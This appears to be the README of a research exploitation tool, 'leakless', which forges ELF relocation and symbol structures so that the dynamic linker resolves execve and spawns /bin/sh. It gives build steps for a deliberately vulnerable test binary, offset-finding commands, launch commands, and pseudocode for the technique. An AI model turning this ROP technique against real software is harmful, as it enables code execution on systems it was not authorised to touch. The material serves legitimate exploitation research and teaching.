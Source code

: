 How to test
===========

1. Build vuln.c

        gcc -fno-stack-protector vuln.c -o /tmp/vuln -m32 -O2

2. Find the offset of the saved IP

        ruby19 "$METASPLOIT/tools/pattern_create.rb" 256 | /tmp/vuln
        dmesg | tail
        ruby19 "$METASPLOIT/tools/pattern_offset.rb" $SEGFAULT_IP

3. Launch the attack with the desired parameter

        (python ./exploit.py /tmp/vuln --offset $OFFSET; echo ls) | /tmp/vuln

You can also just dump to a JSON file all the necessary information to
perform the exploit:

    python ./exploit.py /tmp/vuln --json

For debugging information, use the `--debug` parameter. For further
information on the parameters use the `--help` parameter.

The CMake build system will compile `vuln.c` for x86 and x86-64 with
different protections enabled.  There's also a CTest testsuite which
has been tested using the `ld.gold` linker and GCC 4.8.4. Different
toolchains might require minor adjustments.

To launch it just run:

    mkdir leakless-build
    cd leakless-build
    cmake ../leakless
    make
    make test

The build system has also the `length`, `json` and `ropl` targets
which, respectively, produce the length of the generated exploit for
each supported configuration and the JSON and ropl version of the
exploit.

    make length
    make json
    make ropl

Basic idea
==========

    char *buffer = .bss;
    char *new_stack = buffer + 1024;
    int *rubbish = new_stack + 4;

    strcpy(buffer, "execve");
    *((int *) buffer) = 'exec';
    *(((int *) buffer) + 1) = 've\0\0';
    char *name = buffer;
    buffer += strlen(buffer) + 1;

    Elf32_Sym *symbol = (Elf32_Sym *) buffer;
    symbol->st_name = name - .dynstr;
    symbol->st_value = 0;
    symbol->st_info = 0;
    symbol->st_other = 0;
    symbol->st_shndx = 0;
    buffer += sizeof(*symbol);

    Elf32_Rel *reloc = (Elf32_Rel *) buffer;
    reloc->r_offset = rubbish++;
    reloc->r_info = (R_386_JUMP_SLOT | (symbol - .dynsym) / sizeof(symbol));
    buffer += sizeof(reloc):

    pre_plt((reloc - .rel.plt) / sizeof(Elf32_Rel));

Helper classes
==============

* `MemoryArea`: data structure representing a part of memory, with its
  start address, its size, a reference to what its relative to
  (e.g. the `MemoryArea` where we'll write the relocation structure
  will be relative to the `.rela.dyn` section). `MemoryArea` also
  takes care of computing the appropriate index (`MemoryArea.index`)
  relative to the specified part of memory.
* `Buffer`: data structure holding information about a buffer where we
  want to write to things. Typically this will represent to
  `.bss`. Buffer also keeps track of what part of it has already been
  allocated (`Buffer.current` points to the next free location) and
  allows to allocate new `MemoryArea`s with the appropriate
  alignement.

`Exploit`-derived classes
=========================

* `Exploit`: the base class, contains all the architecture- and
  platform-independent parts of the exploit. It keeps the list of the
  gadgets, it takes care of collecting all the interesting information
  about the program from the ELF file and abstracting some utility and
  memory-related functions (e.g. `write_pointer` and `write_string`)
  which rely on the abstract `do_writemem` function (which is
  platform- and program-dependent). Finally, in `jump_to`, contains
  the core logic for setting up the necessary data structures in the
  buffers.
* `CommonGadgetsExploit`: inherits from `Exploit` and introduces
  architecture-dependent parts, in particular gadgets and
  function-invocation logic.
* `ExecveExploit`: very simple class implementing the logic to launch
  an `execve`, so write a `NULL` pointer, a `"/bin/sh\0"` and
  explicitly look for `execve`. Finally invoke it.
* `RawDumperExploit`: exploit useful to just collect the information
  necessary to perform the attack without actually generating the ROP
  chain. `RawDumperExploit.jump_to` will return as first result an
  array of tuples `(address, what_to_write_there)`, which, for
  instance, are used to implement the `--json` parameter.
